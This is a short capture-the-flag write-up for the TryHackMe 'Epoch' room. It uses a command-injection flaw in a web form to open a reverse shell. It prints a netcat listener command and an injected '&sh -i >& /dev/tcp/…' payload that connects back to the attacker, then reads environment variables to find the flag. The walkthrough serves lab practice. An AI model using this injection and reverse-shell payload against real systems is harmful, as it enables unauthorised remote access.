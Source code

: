 ```yaml
---
title: Epoch
tags:
  - thm
  - easy
---
```


#### Author: AMD

![epoch](../../images/thm/epoch/epoch.png)

This is a writeup for <b>Epoch</b> room.

My target IP: 10.10.218.15

-----------------------------------------------------------------------------------
<b>VISIT WEB PAGE</b>

If we read the room explanation "Our website actually just passes your input right along to that command-line program!" we can see that we might be able to run commands. So lets try it.

![ls](../../images/thm/epoch/ls.png)

Perfect, we can run commands. Lets find a way to get in.

-----------------------------------------------------------------------------------
<b>REVERSE SHELL</b>

Visit https://www.revshells.com/ and use your pc's IP to handle the condiguration.

![shell_conf](../../images/thm/epoch/shell_conf.png)

run "nc -lvnp 9001"

input "&sh -i >& /dev/tcp/10.10.244.218/9001 0>&1"

![conn_received](../../images/thm/epoch/conn_received.png)

-----------------------------------------------------------------------------------
<b>GET THE FLAG</b>

When we look around we can not find the flag. Lets look at the hint: "The developer likes to store data in environment variables, can you find anything of interest there?"

Lets try "printenv" to see the environment variables.

![printenv](../../images/thm/epoch/printenv.png)

-----------------------------------------------------------------------------------
